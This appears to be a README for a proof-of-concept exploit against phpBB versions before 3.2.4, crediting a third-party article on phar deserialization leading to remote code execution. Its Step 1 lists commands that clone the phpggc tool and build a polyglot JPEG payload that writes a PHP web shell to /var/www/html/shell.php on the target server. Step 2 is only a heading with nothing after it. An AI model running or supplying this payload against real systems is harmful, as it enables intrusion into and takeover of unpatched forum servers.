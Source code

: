 # NiceForum

Exploiting phpBB < 3.2.4
Technique taken from the following article. Article also contains technical details regarding the exploitation.
I am NOT the author of the following article, I have only created the POC file to exploit the vulnerability.
https://blog.ripstech.com/2018/phpbb3-phar-deserialization-to-remote-code-execution/

Step 1  - Create the payload  
  
Download the following repo  
git clone https://github.com/s-n-t/phpggc.git  
cd phpggc  
git clone https://github.com/RealLinkers/NiceForum  
chmod +x pharggc  
./pharggc -j ./NiceForum/yourawesomepicture.jpg -o polyglotfiletoupload.jpg Guzzle/FW1 /var/www/html/shell.php ./NiceForum/shell.php  

./pharggc -j <yourphoto.jpg> -o <polyglot.jpg> Guzzle/FW1 <your remote directory where the file will be written to> <your local shell file>  
  
 
 Step 2 - Run exploit code  


